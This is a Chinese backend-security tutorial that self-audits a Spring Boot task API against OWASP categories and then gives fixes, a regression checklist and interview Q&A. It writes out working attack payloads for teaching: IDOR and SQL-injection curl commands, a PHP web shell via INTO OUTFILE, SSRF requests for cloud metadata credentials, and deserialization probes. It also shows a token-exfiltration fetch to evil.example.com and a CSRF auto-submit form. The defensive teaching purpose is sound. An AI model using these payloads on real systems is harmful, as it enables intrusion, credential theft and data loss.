


# 后端安全

## 一、工程案例：按 OWASP 对一组接口做自查，修掉越权、注入、SSRF 与反序列化

**场景**：一个任务管理系统，Spring Boot 3 + MyBatis + MySQL + Redis，对外 12 个接口，两种角色（`user` / `admin`）。上线前用 alice、bob 两个普通账号和一个管理员账号，把接口按 OWASP 的类别过一遍：先找能真正打通的洞，再改代码，最后用同一组命令回归。

**顺序的理由**：越权和注入的命中率最高、利用成本最低（改一个数字、加一个引号）；SSRF 和反序列化出现频率低，但一旦打通就是服务器权限，放在第二轮。类别划分按 OWASP Top 10 的当前版本（条目与编号以官方当前版本为准），**自查的价值不在于跑完清单，而在于每条都能给出「改前什么现象、改后什么现象」。**

**准备**：三个账号各取一个 token，数据造好（alice 的任务 1001，bob 的任务 1002，管理员 id=1）。

```bash
BASE=http://localhost:8080

login() { curl -s -X POST "$BASE/api/auth/login" -H 'Content-Type: application/json' \
  -d "{\"username\":\"$1\",\"password\":\"$2\"}" | jq -r '.data.token'; }

ALICE=$(login alice 'Alice@123')
BOB=$(login bob 'Bob@123')
ADMIN=$(login admin 'Admin@123')
echo "${ALICE:0:16}..."        # 能打印出前缀才说明登录链路正常
```

### 1.1 攻击面盘点

先拿全量路径，不要靠翻前端页面猜接口——前端没入口不代表接口不存在。

```bash
curl -s "$BASE/v3/api-docs" | jq -r '.paths | keys[]' | sort
```

```text
/api/admin/users/{id}      /api/avatar/from-url
/api/auth/login            /api/import
/api/search                /api/tasks/{id}
```

上面是 12 条里的 6 条。4 条要重点看：`GET /api/tasks/{id}`（有 id）、`GET /api/search`（有查询串）、`POST /api/avatar/from-url`（有外发请求）、`POST /api/import`（收序列化数据）。

再看三个「不登录就能拿情报」的位置：

```bash
curl -s -o /dev/null -w 'actuator/env  %{http_code}\n' "$BASE/actuator/env"
curl -s -o /dev/null -w 'swagger       %{http_code}\n' "$BASE/swagger-ui/index.html"
curl -s "$BASE/api/tasks/abc" | head -c 200
```

```text
actuator/env  200
swagger       200
{"status":500,"trace":"java.lang.NumberFormatException ... at com.acme.task.TaskController.getTask"}
```

`actuator/env` 返回 200 说明端点暴露了；若 `management.endpoint.env.show-values` 被设成 `always`（Boot 3 默认 `never`），连接串、地址、密钥会连键名一起回显，即使值被打码，键名和内网地址也够规划下一步。异常里的 `com.acme.task.TaskController` 把包名和技术栈也交了出去。**这两条不是漏洞，是漏洞的放大器。**

### 1.2 越权：改一个 id 就能读别人的数据

```bash
curl -s -H "Authorization: Bearer $ALICE" "$BASE/api/tasks/1001"   # 自己的：正常
curl -s -H "Authorization: Bearer $ALICE" "$BASE/api/tasks/1002"   # 别人的：越权成功
```

```json
{"code":0,"data":{"id":1002,"title":"bob 的私密任务","ownerId":2}}
```

水平越权成立。根因是一行 SQL：

```java
// ❌ WHERE 里只有 id，没有归属人
@Select("SELECT * FROM t_task WHERE id = #{id} AND deleted = 0")
Task selectById(@Param("id") Long id);
```

垂直越权用同一个 token 试管理员接口：

```bash
curl -s -o /dev/null -w '%{http_code}\n' -X DELETE \
  -H "Authorization: Bearer $ALICE" "$BASE/api/admin/users/2"
```

```text
200
```

普通用户用管理员接口删掉了 bob 的账号。**两个洞的共同点：代码校验了「你是谁」，没校验「你能不能」。**

### 1.3 注入：登录绕过与 UNION 拖库

```bash
# ① 登录绕过
curl -s -X POST "$BASE/api/auth/login" -H 'Content-Type: application/json' \
  -d "{\"username\":\"admin\",\"password\":\"' OR '1'='1\"}"
# {"code":0,"data":{"token":"eyJhbGciOi..."}}   ← 不知道密码就进来了

# ② UNION 拖库（列数要对齐，这里假设查询返回 4 列）
curl -s "$BASE/api/search?keyword=x%27%20UNION%20SELECT%20username,password,1,1%20FROM%20t_user--%20"
```

判定标准是**返回了本不该出现的数据**，不是「报错了」。报错只说明语法被破坏，数据出来才叫注入成功；能拖出 `t_user` 的任意列，说明注入点可读整张表，若 `password` 是明文或弱哈希，等于直接交出账号。

```sql
-- ③ 读写文件：仅当数据库账号有 FILE 权限且 secure_file_priv 允许
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_GET[1]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

**注入能造成多大破坏，取决于数据库账号的权限。** 业务库账号给 `FILE`、`DROP`、`GRANT OPTION`，等于把文件系统和提权通道一起交出去。

### 1.4 SSRF：让服务器替你去访问内网

```bash
# ① 云元数据：IMDSv1 可直接读；IMDSv2 要先 PUT 拿 token，只放行 GET 的 SSRF 打不通
curl -s -X POST "$BASE/api/avatar/from-url" --data-urlencode \
  'url=http://169.254.169.254/latest/meta-data/iam/security-credentials/'
# ② 本地文件
curl -s -X POST "$BASE/api/avatar/from-url" --data-urlencode 'url=file:///etc/passwd'
# ③ 跳转绕过：第一跳命中白名单，第二跳进内网
curl -s -X POST "$BASE/api/avatar/from-url" --data-urlencode \
  'url=https://allowed-cdn.example.com/r?to=http://127.0.0.1:6379/'
```

```json
{"AccessKeyId":"STS.xxxxx","SecretAccessKey":"yyyyy","Token":"zzzzz"}
```

拿到临时凭证就等于拿到云账号在这一刻的权限：读对象存储、删数据库、开机器挖矿。**这是 SSRF 里最该按「事故」处理的场景。** 阿里云的内网元数据地址是 `http://100.100.100.200/latest/meta-data/`，别只防 `169.254.169.254`。

### 1.5 反序列化：让请求体决定实例化哪个类

`/api/import` 用 Jackson 解析一段「带类型信息」的 JSON：

```java
// ❌ 打开多态类型：@class 字段决定 new 哪个类
ObjectMapper om = new ObjectMapper();
om.activateDefaultTyping(LaissezFaireSubTypeValidator.instance,
        ObjectMapper.DefaultTyping.NON_FINAL);
Object dto = om.readValue(body, Object.class);
```

探测方法：在测试环境先放一个只打印一行、什么都不做的探针类（生产不要留），再提交它的类名，看服务端是否真的去实例化。

```java
public class Probe {
    public Probe() { System.out.println("Probe constructor called"); }
}
```

```bash
curl -s -X POST "$BASE/api/import" -H 'Content-Type: application/json' \
  -d '["com.acme.task.Probe",{}]'
```

```text
服务端日志：Probe constructor called
```

构造器被调用，说明「请求体里的字符串变成了类名」。真实利用链会指向 JNDI、模板引擎、字节码生成这类能执行代码的类；**能在这一步实例化任意类，离命令执行只差一条现成的 gadget 链。** 不要在生产上试真实链，验证到「任意类被实例化」就足够定性。

Fastjson 的等价探测靠 DNS 回显（版本差异大，以实际版本行为为准）：请求体传 `{"@type":"java.net.Inet4Address","val":"probe.your-dns-log.example.com"}`，DNS 日志里出现解析记录就说明 autoType 生效。

### 1.6 修复

**越权**：归属条件写进 SQL，用户 id 只从凭证取。

```java
@Select("SELECT * FROM t_task WHERE id = #{id} AND owner_id = #{ownerId} AND deleted = 0")
Task selectByIdAndOwnerId(@Param("id") Long id, @Param("ownerId") Long ownerId);

public TaskVO getTask(Long taskId, Long currentUserId) {
    Task task = taskMapper.selectByIdAndOwnerId(taskId, currentUserId);
    if (task == null) throw new BizException("任务不存在");   // 不区分「无权限」和「不存在」
    return TaskVO.from(task);
}
```

按 URL 前缀统一收口角色，比每个方法写注解更难漏：

```java
http.authorizeHttpRequests(auth -> auth
        .requestMatchers("/api/auth/**", "/actuator/health").permitAll()
        .requestMatchers("/api/admin/**").hasRole("ADMIN")   // 整个前缀收口
        .anyRequest().authenticated());
```

**注入**：全部走 `#{}`；排序字段只能来自白名单映射（`Map.of("id","id","time","created_at")` 这类固定映射，拼进 SQL 的只可能是常量）。业务库账号只留 CRUD：

```sql
GRANT SELECT, INSERT, UPDATE, DELETE ON appdb.* TO 'app_user'@'%';
```

**SSRF**：协议白名单 → 域名白名单 → 解析后校验 IP → 禁止跳转 → 限制大小。

```java
public static byte[] fetch(String urlStr, int timeoutMs, int maxBytes) {
    URL url = new URL(urlStr);
    if (!Set.of("http", "https").contains(url.getProtocol())) throw new BizException("协议不允许");
    if (!ALLOWED_HOSTS.contains(url.getHost().toLowerCase())) throw new BizException("域名不允许");
    for (InetAddress a : InetAddress.getAllByName(url.getHost()))
        if (isInternal(a)) throw new BizException("禁止访问内网地址：" + a.getHostAddress());
    HttpURLConnection conn = (HttpURLConnection) url.openConnection();   // 这里会再解析一次，出口策略必须兜底
    conn.setInstanceFollowRedirects(false);      // 跳转必须重新校验，这里直接拒绝
    conn.setConnectTimeout(timeoutMs);
    conn.setReadTimeout(timeoutMs);
    if (conn.getResponseCode() / 100 == 3) throw new BizException("不允许跳转");
    // 读取时按 maxBytes 截断，防「无限流」把堆撑爆
}
```

应用侧只能缩小「解析—连接」之间的重解析窗口，消除不了它；真正兜底在出口：安全组或出站代理只放行公网，元数据网段一律拒绝。

**反序列化**：不开启全局多态；必须多态时用显式子类白名单，并且只反序列化 DTO。

```java
ObjectMapper om = new ObjectMapper();
om.activateDefaultTyping(BasicPolymorphicTypeValidator.builder()
        .allowIfSubType("com.acme.task.dto.")        // 只允许业务 DTO 包
        .build(), ObjectMapper.DefaultTyping.NON_FINAL);
```

**配置侧**：把两个放大器关掉（Boot 3 默认已是 `health` 与 `never`，显式写出防止被改动）。

```yaml
management.endpoints.web.exposure.include: health
server.error.include-stacktrace: never
server.error.include-message: never
```

### 1.7 回归验证与验收

先在测试库重置种子数据，再把 1.2 到 1.5 的命令原样跑一遍，期望是 401 / 403 /「任务不存在」/「用户名或密码错误」/「协议不允许」。逐条对照下表，**任何一条不符就是没修干净**。

| # | 检查项 | 命令或检查 | 通过标准 |
|---|---|---|---|
| 1 | 未认证访问 | `curl -i $BASE/api/tasks/1001` | 401，响应体无数据 |
| 2 | 垂直越权 | alice 的 token 调 `/api/admin/**` | 403，且未产生副作用 |
| 3 | 水平越权 | alice 读 bob 的 `1002` | 返回「不存在」，不返回 403 |
| 4 | id 遍历 | `for id in $(seq 1001 1050)` 逐个取 | 只有 1001 有数据，其余「不存在」 |
| 5 | 登录注入 | 密码传 `' OR '1'='1` | 「用户名或密码错误」 |
| 6 | UNION 注入 | `keyword=x' UNION SELECT ...` | 参数非法或空结果，日志里是 `?` 占位 |
| 7 | 排序注入 | `sortBy=id,(select 1)` | 回落到默认字段，不报 SQL 错 |
| 8 | SSRF 元数据 | 传 `169.254.169.254` 与 `100.100.100.200` | 「禁止访问内网地址」 |
| 9 | SSRF 协议 | 传 `file:///etc/passwd` | 「协议不允许」 |
| 10 | SSRF 跳转 | 白名单域名 302 到 `127.0.0.1` | 「不允许跳转」 |
| 11 | 反序列化 | 提交 `["com.acme.task.Probe",{}]` | 400 或「类型不允许」，无构造器调用 |
| 12 | 异常与配置 | 触发 500；访问 `/actuator/env` | 无堆栈只有 traceId；env 为 404 或 401 |

**第 3 条和第 4 条要一起看**：只改一个接口不够，以 alice 的身份从 1001 遍历到 1050 才能证明「归属条件」是普遍生效的，而不是在某个方法里补了个 `if`。

把这 12 条写进 `scripts/security-selfcheck.sh`，在 CI 里起服务后跑一遍，退出码非 0 就让流水线红。**安全自查一旦只能靠人记得做，就一定会被跳过。**

```bash
#!/usr/bin/env bash
set -uo pipefail
BASE=${BASE:-http://localhost:8080}
ALICE=${ALICE:?先登录并 export ALICE}
fail=0

expect() {  # expect 名称 期望码 curl 参数...
  local name=$1 want=$2 got; shift 2
  got=$(curl -s -o /dev/null -w '%{http_code}' "$@")
  [[ "$got" == "$want" ]] || { echo "FAIL $name: $got != $want"; fail=1; }
}

expect 未认证 401 "$BASE/api/tasks/1001"
expect 垂直越权 403 -X DELETE -H "Authorization: Bearer $ALICE" "$BASE/api/admin/users/2"
# 水平越权要断言响应体是「不存在」：可能是 404，也可能是 200 + 业务错误码，按项目约定补
# 其余检查同样追加，最后 exit $fail
exit $fail
```

---

## 二、高频问答：会卡住你的地方，也是面试最常问的

### 2.1 带了 token 就能读任意 id

**现场**

两个账号交叉访问同一个 id；再看 MyBatis 日志里那条 SQL 有没有归属条件。

**要点**

- 只做了认证（你是谁），没做授权（这条数据归不归你）。
- `selectById(id)` 的 WHERE 里没有 `owner_id`，把 URL 里的数字加一就能读别人的数据。
- 「登录成功」不等于「有权限」，框架只负责拦住没登录的人。
- 资源归属永远要业务自己写，而且条件进 SQL 比查出来再 `if` 更稳。

**追问**

- 为什么越权不能返回 403？→ 403 等于告诉对方 id 真实存在，可以据此枚举。
- 归属条件放哪一层？→ 进 SQL；查后 `if` 靠人记得写，新增分支容易漏。
- 租户隔离怎么防？→ `tenantId` 从凭证推导，不接受客户端传。

### 2.2 `#{}` 全改了，还是被注入

**现场**

全局搜 `${`，逐处判断是不是「SQL 结构部分」；再搜 `Statement`、`createStatement`、字符串拼 `+`。

```bash
grep -rn '\${' src/main/resources/mapper/ src/main/java/    # 逐处确认是不是「SQL 结构部分」
```

**要点**

- `#{}` 只能替换**值**，替换不了标识符。
- `${}` 往往藏在动态排序、动态表名、`LIKE` 拼接里，或者写成了 `concat('%${kw}%')`。
- `ORDER BY #{col}` 会被当成字符串常量，排序直接失效，于是很多人改回 `${}`——正确做法是白名单映射。
- `LIKE` 要写成 `LIKE CONCAT('%', #{kw}, '%')`，并转义 `%` 和 `_`。

**追问**

- 为什么 `ORDER BY` 不能用占位符？→ 标识符不能参数化，语法树里没有它的位置。
- 动态表名怎么处理？→ 白名单映射，拼进 SQL 的只可能是常量。
- 转义 `%` 和 `_` 是防什么？→ 防用户拿通配符扫全表。

### 2.3 加了 `@PreAuthorize`，普通用户照样能调

**现场**

看启动日志里有没有方法级安全的初始化；把注解换成 `@PreAuthorize("denyAll()")` 看是否真的拒绝。

**要点**

- 方法级安全没开（Spring Security 6 需要 `@EnableMethodSecurity`），少这一行所有注解都是装饰品。
- 同类内部调用 `this.deleteUser(id)` 不经过 Spring 代理，注解同样不生效。
- 验证方式永远是「故意让它拒绝」，能拒绝才说明注解真的在工作。

**追问**

- 为什么自调用会绕过？→ 代理只在外部调用时介入。
- 前缀统一收口和逐方法加注解，哪个更稳？→ 前缀收口更难漏。
- 注解生效了但角色对不上？→ 查权限点映射，别只看角色名。

### 2.4 日志里出现明文密码和完整 token

**现场**

`grep -iE 'password|token|authorization|secret'` 扫日志文件；再看登录接口的 query 里有没有密码。

**要点**

- 请求体被整体打印（`log.info("req={}", req)`），是最常见的一次性泄露。
- 异常里带了参数、网关访问日志记了 query string，同样会漏。
- 日志会被采集到集中平台、被更多人看到、按规定可能保留 6 个月以上，比数据库更难收回。
- 修法是白名单式打印（只打 id、路径、耗时），而不是黑名单式过滤字段。

**追问**

- 只在 debug 级别打就没关系吗？→ 采集端照样收，级别也随时会被调开。
- 密码为什么不能放 query？→ 访问日志会把 URL 原样记下来。
- 脱敏做在哪一层？→ 统一出口（encoder、切面或采集端），不靠每个调用点记得。

### 2.5 SSRF 加了域名白名单，还是能打内网

**现场**

起一个会 302 到 `127.0.0.1` 的地址试；看客户端有没有 `setInstanceFollowRedirects(false)`。

```bash
curl -s -X POST "$BASE/api/avatar/from-url" --data-urlencode 'url=http://2130706433:6379/'
```

**要点**

- 自动跟随了 302，第二跳直接进内网。
- 校验时解析一次、连接时又解析一次（DNS Rebinding），中间那段时间 DNS 可以改。
- `2130706433` 是 `127.0.0.1` 的十进制写法，字符串比对域名永远匹配不到。
- 必须在校验之后、连接之前把地址钉死：解析出 IP 后直接连那个 IP，`Host` 头单独设。

**追问**

- 只靠一次 `getByName` 判断够吗？→ 不够，中间仍有重解析窗口。
- 出口层怎么兜底？→ 安全组或出站代理只放行公网，元数据网段一律拒绝。
- 元数据只防 `169.254.169.254` 行吗？→ 不行，阿里云还有 `100.100.100.200`。

### 2.6 JWT 放进 localStorage，一次 XSS 全丢

**现场**

在控制台执行 `localStorage.getItem('token')`，能打印出来就是可被 XSS 读取。

**要点**

- 签名只保证「没被篡改」，不保证「读不到」；localStorage 对同源 JS 完全开放。
- 任何一段注入成功的脚本，都能用 `fetch('https://evil.example.com/c?t=' + localStorage.getItem('token'))` 把它带走。
- JWT 的 payload 只是 Base64URL，不是加密，手机号、身份证、角色树不要塞进去。
- 取舍是：放 HttpOnly Cookie 能防读，但要重新处理 CSRF；放内存 + 短期 refresh 能减少暴露窗口，但刷新页面会掉登录态。

**追问**

- JWT 加密了就安全吗？→ JWE 能防读，但 XSS 仍能拿着它发请求。
- 放 HttpOnly Cookie 为什么还要防 CSRF？→ Cookie 会被浏览器自动携带。
- token 有效期怎么定？→ 短 access + 可撤销的 refresh。

### 2.7 关了 CSRF 之后，Cookie 认证的接口能被跨站调用

**现场**

另起一个端口写个自动提交的表单，指向目标站的写接口，看是否执行成功。

```html
<form action="https://target.example.com/api/tasks/1001/delete" method="POST" id="f"></form>
<script>document.getElementById('f').submit()</script>   <!-- 不需要读到响应，只要请求被执行 -->
```

**要点**

- 判断标准不是「用没用 JSON」，而是「凭证放在哪」。
- 只要凭证在 Cookie 里，跨站表单/请求就会自动带上；关掉 CSRF 等于把门拆了。
- 凭证在 `Authorization` 头、且服务端**只**从头部读，才天然免疫。
- 只要还支持从 Cookie 读 token，就得把 CSRF 防护加回来。

**追问**

- `SameSite=Lax` 够吗？→ 跨站 GET 导航仍会带，老浏览器也不支持。
- 自定义头为什么能防？→ 跨站会触发预检，普通表单带不上这个头。
- 同时支持 Header 和 Cookie 会怎样？→ CSRF 免疫直接降级成易感。

### 2.8 出错时接口返回了堆栈

**现场**

传一个类型错误（`/api/tasks/abc`），看响应体里有没有 `at com.xxx` 和表名。

**要点**

- 堆栈泄露的是表名、包名、框架版本、依赖版本，攻击者据此挑对应的漏洞。
- 没有全局异常处理，或有人把 `server.error.include-stacktrace` 设成了 `always`/`on-param`。
- 正确做法是统一兜底，对外只给 traceId，详细内容进服务端日志。
- 别修成 fail-open：捕获异常后 `return null` 让流程继续走，比泄露堆栈更危险。

**追问**

- 只有内网能看到就没事吗？→ 内网不是信任边界，SSRF 之后一样能读。
- traceId 怎么给到用户？→ 响应头回传，报错时用户直接提供。
- Boot 3 默认是什么？→ `include-stacktrace` 默认 `never`。

### 2.9 限流做了，但全站共用一个桶

**现场**

在限流处打印 key，看不同客户端打出来的是不是同一个值。

```java
String ip = request.getRemoteAddr();                  // ❌ 反代后面永远是上游地址
String realIp = request.getHeader("X-Forwarded-For"); // ✅ 仅信任链明确时读，且取可信代理写入的那一段
```

**要点**

- 取客户端 IP 取的是 Nginx 的地址，所有人都是 `127.0.0.1`。
- `X-Forwarded-For` 可以被客户端伪造，必须由边缘代理**覆盖**而不是追加。
- 限流的 key 要能区分「谁在刷」：登录用「IP + 账号」，短信验证码用手机号，普通接口用用户 id。

**追问**

- 为什么不能直接取 XFF 第一段？→ 那一段可能是客户端自己写的。
- 只按 IP 限流有什么问题？→ NAT 后面一整片用户共享一个桶。
- 分布式限流用什么？→ Redis 计数或令牌桶，注意计数和过期要原子。

### 2.10 MD5 换成 BCrypt 后，老用户全部登不上

**现场**

看库里的哈希前缀：`$2a$` 是 BCrypt，32 个十六进制字符是 MD5。

**要点**

- 库里存的还是 32 位 MD5，`matches` 拿它当 BCrypt 哈希解析，直接返回 false。
- 迁移不能一次性重算（没有明文），标准做法是**登录时渐进升级**。
- 先按旧算法校验，通过后立刻用 BCrypt 重算并写回。
- 更稳妥的是库里加一列 `algo` 标记，不靠哈希前缀猜算法。

```java
boolean bcrypt = user.getPassword().startsWith("$2");           // $2a$ / $2b$ / $2y$
boolean ok = bcrypt ? encoder.matches(raw, user.getPassword())
                    : md5(raw).equals(user.getPassword());
if (ok && !bcrypt) { user.setPassword(encoder.encode(raw)); userMapper.updateById(user); }
```

**追问**

- 为什么不能直接全部重置密码？→ 用户量大，体验和客服成本都受不了。
- BCrypt 的 cost 怎么定？→ 按硬件压测，几十毫秒量级，调高登录会明显变慢。
- 为什么同一口令每次哈希结果不同？→ 盐是随机的，写在结果里。

### 2.11 反序列化只在内部用，还是被打穿

**现场**

搜 `enableDefaultTyping`、`autoTypeSupport`、`ObjectInputStream`、`XStream`、`SnakeYAML` 的默认构造。

```java
new ObjectInputStream(in).readObject();          // ❌ 完全信任输入流
new Yaml().load(untrusted);                      // ❌ 支持 !! 标签，可构造任意类
new Yaml(new SafeConstructor()).load(untrusted); // ✅ 只解析基础类型
```

**要点**

- 内网接口可能被 SSRF 打通、被横向移动，或经网关暴露。
- `autoType` / default typing 一开就没有类型边界。
- 判断标准是「输入能不能指定类型」，不是「接口在不在内网」。
- 内网不是信任边界，尤其在有了 SSRF 之后。

**追问**

- 只反序列化 DTO 就够吗？→ 能降低面，但仍要限制可实例化的子类。
- Jackson 白名单怎么写？→ `BasicPolymorphicTypeValidator` 只放行业务 DTO 包。
- Java 原生反序列化怎么收口？→ `ObjectInputFilter` 白名单。

### 2.12 CORS 配了 `*`，还要带 cookie

**现场**

用任意 `Origin` 发预检，看响应头是否原样回显并带 `Allow-Credentials: true`。

**要点**

- 规范禁止 `Access-Control-Allow-Origin: *` 与凭证同时使用。
- 于是有人改成回显 `Origin`，等于对全网开门。
- 正确做法是**精确列出 Origin**，并在服务端做一次比对。
- `Origin: null`（沙箱 iframe、`file://` 页面会发）不能被当成合法来源。

**追问**

- `setAllowedOriginPatterns("*")` 安全吗？→ 配 `allowCredentials(true)` 就变成回显任何来源。
- 预检失败长什么样？→ 浏览器拦响应，控制台报 CORS。
- 为什么 Origin 必须服务端校验？→ 请求头是客户端写的，浏览器只保证跨域时带上。

### 2.13 actuator 与接口文档忘了关

**现场**

不登录访问 `/actuator/env`、`/v3/api-docs`、`/swagger-ui/index.html`；返回 200 即暴露，401 只说明加了鉴权。

**要点**

- 「运维页面没业务数据」是错觉：`/actuator/env` 即使值被打码，键名、内网地址、依赖版本也够规划下一步。
- `/v3/api-docs` 直接交出全部路径和参数。
- 根因是 `management.endpoints.web.exposure.include` 被设成 `*`，文档页在生产也开着。
- 修法是只暴露 `health`，文档在生产关闭或加鉴权，网关按「默认拒绝」配置而不是只放行 `/api/**`。

**追问**

- 返回 401 就安全了吗？→ 只说明加了鉴权，弱口令一样能进。
- 网关只拦 `/api/**` 有什么问题？→ 其他路径默认放行。
- 值都打码了还危险吗？→ 键名和内网地址足以规划下一步。

---

## 三、核心知识：从零开始要建立的东西

### 3.1 信任边界

一条请求从浏览器到数据库，每一层都可能被绕过，**只有服务端的那几层是可信的**。



`curl` 那一行就是全部道理：前端校验只影响「正常用户会不会填错」，不影响「攻击者能不能提交」。所以金额上限、角色、资源归属、状态机，必须在服务端再判一次。

划边界的实用标准：**凡是服务端能自己算出来、或本该由服务端决定的字段，一律不接受客户端传值。**

| 字段 | 客户端传了会怎样 | 服务端应该怎么来 |
|---|---|---|
| `price` | 改成 1 分钱下单 | 按商品 id 查库 |
| `userId` | 把订单挂到别人名下 | 从凭证里取 |
| `status` | 直接传「已支付」 | 由支付回调推进 |
| `role` | 自己升成管理员 | 由管理员操作，单独审计 |
| `createdAt` | 伪造时间逃避对账 | 数据库默认值或服务端时钟 |

### 3.2 认证、授权与审计

三件事经常被合成一句「做权限」，实际是三套机制：

| | 回答的问题 | 失败返回 | 典型实现 |
|---|---|---|---|
| 认证 AuthN | 你是谁 | 401 | 密码 + 会话、OAuth2、mTLS |
| 授权 AuthZ | 你能做什么 | 403 | 角色、权限点、策略引擎 |
| 审计 Audit | 你做过什么 | — | 结构化日志 + 告警 |

顺序固定：先认证，再授权，最后才碰数据。**任何一步失败都必须终止**，不能「记个日志继续走」。

审计记的是**决策**，不是**内容**：登录成败、账号、IP、时间；权限拒绝时是谁、访问哪个资源；删除、导出、改权限这类敏感操作。密码、验证码、完整 token、请求体全文、连接串，一条都不该进日志。

日志本身也是攻击目标：**能写日志的地方就能注入**（换行符伪造日志行）、**能读日志的地方就能拿凭证**（URL 里的 token 被访问日志记下来）。所以登录凭证只走请求体，绝不放在 query string 里。

### 3.3 注入的共性

SQL 注入、命令注入、LDAP 注入、模板注入、XSS，本质是同一件事：**把不可信的数据，送进了会被当作代码解析的通道。**

```java
String sql = "SELECT * FROM t WHERE name = '" + name + "'";   // SQL
Runtime.getRuntime().exec("ping -c 1 " + host);               // 命令
element.innerHTML = userInput;                                // HTML
```

| 通道 | 解法 | 关键点 |
|---|---|---|
| SQL | 参数化查询 | 数据和语法分两次发送 |
| 命令 | 不用 shell，参数以数组传 | `new ProcessBuilder("ping","-c","1",host)`，不拼字符串 |
| HTML | 按上下文编码 | 存原文，输出时转义 |
| 模板 | 用户内容只作为变量传入 | 不把用户输入当模板源码编译 |

**判断一处代码有没有注入风险，只看一个问题：这段输入最终是作为「值」使用，还是作为「语法的一部分」被解析。**

### 3.4 参数化查询的能力边界

预编译之所以有效，是因为语法树在参数到达之前就固定了：

```text
第一次：PREPARE SELECT * FROM t_user WHERE username = ?     ← 语法树定死
第二次：EXECUTE ... USING ' OR ''1''=''1'                    ← 只填值，不参与解析
```

所以 `' OR '1'='1` 只是一个「查不到东西的用户名」。

| | `#{}`（MyBatis）/ `?`（JDBC） | `${}` / 字符串拼接 |
|---|---|---|
| 底层 | PreparedStatement 占位符 | 直接进 SQL 文本 |
| 能替换值 | ✅ | ✅ |
| 能替换表名、列名、`ORDER BY` | ❌ | ✅ |
| 传注入串 | 当成普通值 | 变成语法 |
| 适用 | 绝大多数场景 | 仅白名单校验后的标识符 |

边界在于**标识符不能参数化**：`ORDER BY ?` 在多数数据库里被当成常量，排序失效。工程解法是白名单映射：

```java
private static final Map<String, String> SORT =
        Map.of("id", "id", "time", "created_at", "title", "title");
String column = SORT.getOrDefault(req.getSortBy(), "id");   // 拼进去的只能是常量
```

还有两个常被忽略的点：`LIKE` 里的 `%` 和 `_` 是通配符，用户传 `%` 能扫全表，要转义；`IN` 子句不能写 `IN (#{ids})`，要用 `<foreach>` 展开成多个 `?`。

> **面试**：常问「`#{}` 和 `${}` 的区别？」答：前者是占位符只替换值，后者直接进 SQL 文本，只能用于白名单校验过的标识符。

### 3.5 越权与资源归属

| 类型 | 攻击方式 | 例子 | 防线 |
|---|---|---|---|
| 水平越权 | 同角色之间横向拿数据 | 改 `taskId`、改 `orderNo` | 归属条件进查询 |
| 垂直越权 | 低权限调高权限功能 | 普通用户调 `/admin/**` | 按前缀统一鉴权 |
| 上下文越权 | 换了租户或组织仍能读 | 改 `tenantId` 头 | 租户从凭证推导 |

越权高发，是因为它**不需要任何技术手段**：注册一个账号，把 URL 里的数字加一。返回码也有讲究：查别人的资源时返回**「不存在」而不是 403**，403 等于告诉对方「这个 id 真实存在，只是你没权限」，可以据此枚举出全量 id。

归属条件的三种落点，安全性差很多：

```java
Task t = mapper.selectById(id);                                  // ① 查出来再 if，靠人记得写
if (!t.getOwnerId().equals(uid)) throw new BizException("无权限");
Task t = mapper.selectByIdAndOwnerId(id, uid);                   // ② 条件进 SQL，漏不掉
// ③ 框架自动追加：MyBatis-Plus 租户插件自动拼 owner_id = ?
```

| 写法 | 优点 | 风险 |
|---|---|---|
| 查后 if | 直观，能给出细分错误 | 新增分支容易漏；`selectById` 被别处复用后权限消失 |
| 条件进 SQL | 权限和数据一次取出，无法绕过 | 每个查询都要记得写 |
| 拦截器统一追加 | 新代码默认安全 | 要维护「忽略表」清单，写错会误伤 |

**② 是底线，③ 是工程化方向。** 用 ③ 时要盯住忽略清单：`t_user`、字典表这类不该过滤的表一旦漏配，登录查询会被加上 `owner_id`，直接查不到人。

> **面试**：常问「水平越权和垂直越权怎么防？」答：归属条件进 SQL，管理接口按 URL 前缀统一鉴权。

### 3.6 会话凭证与 CSRF

凭证放哪里，决定了要防什么：

| 形态 | 存放 | 浏览器自动带 | 可被 JS 读 | 要防 CSRF |
|---|---|---|---|---|
| Session Cookie | Cookie | ✅ | 否（HttpOnly） | ✅ |
| JWT 在 Cookie | Cookie | ✅ | 否（HttpOnly） | ✅ |
| JWT 在 Header | 内存 / localStorage | ❌ | localStorage 可读 | ❌ |
| Opaque token 在 Header | 内存 | ❌ | 否 | ❌ |

CSRF 成立需要三个条件同时满足：**凭证自动携带、参数可预测、没有额外的随机校验**。打断任意一个就防住了。

| 手段 | 打断哪个条件 | 局限 |
|---|---|---|
| `SameSite=Lax` | 跨站不带 Cookie | 老浏览器；跨站 GET 导航仍带 |
| CSRF Token | 参数不可预测 | 需要会话或双提交 Cookie；多标签页要共享 |
| 校验 `Origin` | 来源不可伪造（浏览器保证） | 非浏览器客户端没有该头 |
| 自定义头 | 跨站请求触发预检，普通表单带不上该头 | 服务端必须强制要求，缺头即拒绝 |

**最危险的配置是「既从 Header 读 token，也从 Cookie 读 token」**：开发者以为支持两种更方便，实际把 CSRF 免疫降级成了 CSRF 易感。选一种，只认一种。

### 3.7 XSS 的三种形态与输出编码

| 形态 | 恶意数据从哪来 | 触发点 | 后端责任 |
|---|---|---|---|
| 存储型 | 入库（评论、昵称、工单） | 别人浏览时 | 输出时按上下文转义；富文本入库前做白名单清洗 |
